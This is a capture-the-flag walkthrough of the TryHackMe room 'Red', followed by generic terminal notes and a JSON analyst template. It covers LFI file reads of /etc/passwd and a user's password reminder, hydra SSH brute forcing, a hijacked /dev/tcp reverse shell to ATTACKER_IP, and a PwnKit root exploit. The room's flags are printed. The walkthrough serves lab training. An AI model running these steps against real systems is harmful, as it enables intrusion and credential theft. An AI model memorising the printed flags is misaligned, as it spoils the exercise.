

## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gain Access](#gain-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Now that we're all set up and ready to go, let's do some basic recon:
```shell-session
$ rustscan -b 4500 -a TARGET_IP --ulimit 5000 -t 2000 -r 1-65535  -- -sC -oN rustscan_port_scan.txt
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC1MTQvnXh8VLRlrK8tXP9JEHtHpU13E7cBXa1XFM/TZrXXpffMfJneLQvTtSQcXRUSvq3Z3fHLk4xhM1BEDl+XhlRdt+bHIP4O5Myk8qLX9E1FFpcy3NrEHJhxCCY/SdqrK2ZXyoeld1Ww+uHpP5UBPUQQZNypxYWDNB5K0tbDRU+Hw+p3H3BecZwue1J2bITy6+Y9MdgJKKaVBQXHCpLTOv3A7uznCK6gLEnqHvGoejKgFXsWk8i5LJxJqsHtQ4b+AaLS9QAy3v9EbhSyxAp7Zgcz0t7GFRgc4A5LBFZL0lUc3s++AXVG0hJ9cdVTBl282N1/hF8PG4T6JjhOVX955sEBDER4T6FcCPehqzCrX0cEeKX6y6hZSKnT4ps9kaazx9O4slrraF83O9iooBTtvZ7iGwZKiCwYFOofaIMv+IPuAJJuRT0156NAl6/iSHyUM3vD3AHU8k7OISBkndyAlvYcN/ONGWn4+K/XKxkoXOCW1xk5+0sxdLfMYLk2Vt8=
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDooZFwx0zdNTNOdTPWqi+z2978Kmd6db0XpL5WDGB9BwKvTYTpweK/dt9UvcprM5zMllXuSs67lPNS53h5jlIE=
|   256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDyWZoVknPK7ItXpqVlgsise5Vaz2N5hstWzoIZfoVDt
80/tcp open  http    syn-ack
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

$ rustscan -b 4500 -a TARGET_IP --ulimit 5000 -t 2000 -p 22,80  -- -sV -oN rustscan_service_scan.txt
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Cool, so we have 2 services running, a http server and an ssh server. Let's see what the http server has for us:


Notice that the URL is: `http://TARGET_IP/index.php?page=home.html`. It looks like a potential vector for LFI. Let's check if that's the case. We can try to include the `index.php` file and see what happens:
```shell-session
$ curl "http://TARGET_IP/index.php?page=./index.php"

<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>

```

Bingo! We can see that the `index.php` file takes in `page` and reads the file specified by it. There's sanitization, but we can work around that. Let's see if we can directly include `/etc/issue` using the `php://` filter wrapper:
```shell-session
$ curl http://TARGET_IP/index.php?page=php://filter/resource=/etc/issue

Ubuntu 20.04.4 LTS \n \l
```

Nice! What about `/etc/passwd`?
```shell-session
$ curl http://TARGET_IP/index.php?page=php://filter/resource=/etc/passwd

...
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```

OK, so we have 2 users that we can potentially gain access as: `red` and `blue`. Let's check files in their home directories:
```shell-session
$ curl http://TARGET_IP/index.php?page=php://filter/resource=/home/blue/.bashrc
<NORMAL STUFF>

$ curl http://TARGET_IP/index.php?page=php://filter/resource=/home/red/.bashrc
<NOPE, NOTHING INTERESTING>

$ curl http://TARGET_IP/index.php?page=php://filter/resource=/home/blue/.bash_history
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

OOOOO Interesting. It seems that someone's generated a password list with hashcat... and removed it? There's no record of this `.reminder` being removed, worth a chance:
```shell-session
$ curl http://TARGET_IP/index.php?page=php://filter/resource=/home/blue/.reminder
sup3r_p@s$w0rd!
```

Nice! Let's now generate `passlist.txt`:
```shell-session
$ hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
$ wc passlist.txt                                  
  77   77 1114 passlist.txt
```

Since one of the hints says: 
> 2. Red likes to change adversaries' passwords but tends to keep them relatively the same. 

I'm assuming that the passlist contains all possible passwords for `blue`. Let's try to brute force our way in.

## Gaining Access

```shell-session
$ hydra -l blue -P passlist.txt -v TARGET_IP ssh  
...
[22][ssh] host: TARGET_IP   login: blue   password: [PASSWORD FROM passlist.txt]
...
```

Let's now log into the machine using these creds:
```shell-session
$ ssh blue@TARGET_IP
...
blue@red:~$ ls -la
total 40
drwxr-xr-x 4 root blue 4096 Aug 14  2022 .
drwxr-xr-x 4 root root 4096 Aug 14  2022 ..
-rw-r--r-- 1 blue blue  166 Jul 17 13:30 .bash_history
-rw-r--r-- 1 blue blue  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 blue blue 3771 Feb 25  2020 .bashrc
drwx------ 2 blue blue 4096 Aug 13  2022 .cache
-rw-r----- 1 root blue   34 Aug 14  2022 flag1
-rw-r--r-- 1 blue blue  807 Feb 25  2020 .profile
-rw-r--r-- 1 blue blue   16 Aug 14  2022 .reminder
drwx------ 2 root blue 4096 Aug 13  2022 .ssh
blue@red:~$ cat flag1
THM{Is_thAt_all_y0u_can_d0_blU3?}
```

> What is the first flag?
> 
> Answer: `THM{Is_thAt_all_y0u_can_d0_blU3?}`

After a bit of analysis using `linpeas` and `pspy` (or alternatively you can just use `ps -aux`) we notice 2 things:

1. The `/etc/hosts` file has an entry and we can only _amend_ to it:
```hosts
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouter
```

2. There's a persistently run process:
```process
bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

_But_ the IP 19.168.0.1 doesn't actually lead anywhere. So we can just add an entry for `redrules.thm` to `/etc/hosts` that leads to our machine and start a listener to obtain a reverse shell as red:
```shell-session
## On target:
$ echo "ATTACKER_IP redrules.thm" >> /etc/hosts

## On our machine:
$ nc -nvlp 9001

red@red$ ls
flag2

red@red$ cat flag2
THM{Y0u_won't_mak3_IT_furTH3r_th@n_th1S}
```

> What is the second flag?
> 
> Answer: `THM{Y0u_won't_mak3_IT_furTH3r_th@n_th1S}`

## Privilege Escalation

Enumerating stuff:
```shell-session
$ find / -perm /u=s,g=s 2>/dev/null
...
...
/home/red/.git/psexec
```

Okay... So. There's a `psexec` in red's home dir. Let's see what version it is:
```shell-session
red@red$ /home/red/.git/psexec --version
psexec version 0.105
```

A quick search online shows us that this version is vulnerable and can be used for privesc: (CVE-2021-4034)
I'll be using a PoC exploit written in python: https://github.com/Almorabea/pkexec-exploit
The script will slightlyn be modified: 
```diff
- libc.execve(b'/usr/bin/pkexec', c_char_p(None), environ_p)
+ libc.execve(b'/home/red/.git/pkexec', c_char_p(None), environ_p)
```

_Get this onto the target and run it to get a root shell :)_
Once we get a root shell, we can get the root flag:
```shell-session
red@red$ python3 exploit.py
whoami
root

ls /root
...
flag3
...

cat /root/flag3
THM{Go0d_Gam3_Blu3_GG}
```

> What is the third flag?
> 
> Answer: `THM{Go0d_Gam3_Blu3_GG}`


## Conclusion

This one honestly took me longer than I have the courage to admit because of that frustrating ass kickout mechanism. Plus I overcomplicated stuff so rabithole-seption it was. Anyways... I hope this writeup was useful. If you like it, please consider following me on [github](https://github.com/NovusEdge) and dropping a star on the [repo](https://github.com/NovusEdge/thm-writeups)

---

- Author: Aliasgar Khimani
- Room: [Red](https://tryhackme.com/room/redisl33t)

---

## Terminal Evidence (Condensed)

```text
analyst@kali:~$ nmap -sC -sV <TARGET_IP>
[+] Enumerated exposed services and probable attack surface

analyst@kali:~$ gobuster dir -u http://<TARGET_IP> -w /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Identified candidate paths/endpoints for validation

analyst@kali:~$ searchsploit <service_or_version>
[+] Mapped service/version to exploit hypotheses for lab validation
```

## Analyst Reasoning Chain (Dataset-Style)

```json
{
  "scenario": "redisl33t_recon_to_access_chain",
  "input_signals": [
    "Service exposure identified during enumeration",
    "At least one actionable endpoint or protocol weakness observed",
    "Credential, version, or configuration clues support exploitation hypotheses"
  ],
  "attack_chain": [
    {
      "step": 1,
      "tactic": "reconnaissance",
      "technique": "Active Service and Surface Discovery",
      "confidence": 0.93,
      "evidence": "Port and service inventory built from scan output"
    },
    {
      "step": 2,
      "tactic": "initial_access",
      "technique": "Valid Accounts / Misconfiguration / Known Vulnerability",
      "confidence": 0.86,
      "evidence": "Room-specific access path established from discovered clues"
    },
    {
      "step": 3,
      "tactic": "privilege_escalation",
      "technique": "Local Misconfiguration or Credential Abuse",
      "confidence": 0.79,
      "evidence": "Escalation candidate identified and validated in lab context"
    }
  ],
  "hypotheses": [
    "Additional services on the same host may share weak configuration patterns",
    "Recovered credentials or hashes may be reused across management interfaces",
    "Legacy software components may expose further exploit paths"
  ],
  "uncertainties": [
    "Exact production relevance of lab misconfigurations",
    "Extent of network segmentation and monitoring controls",
    "Whether similar weaknesses exist in adjacent systems"
  ],
  "tool_calls": [
    {"name": "redisl33t_surface_mapper", "priority": "high"},
    {"name": "redisl33t_credential_validator", "priority": "high"},
    {"name": "redisl33t_privesc_path_checker", "priority": "medium"}
  ],
  "mitigation": {
    "immediate": [
      "Patch or disable the exploited service/path",
      "Rotate exposed credentials and invalidate old sessions",
      "Restrict administrative interfaces to trusted network segments"
    ],
    "hardening": [
      "Apply least-privilege permissions on services and scheduled tasks",
      "Remove default credentials and enforce strong authentication",
      "Continuously scan for outdated components and exposed assets"
    ],
    "monitoring": [
      "Alert on anomalous scanning and endpoint enumeration patterns",
      "Detect suspicious authentication and lateral movement attempts",
      "Track privilege escalation indicators and abnormal process creation"
    ]
  }
}
```
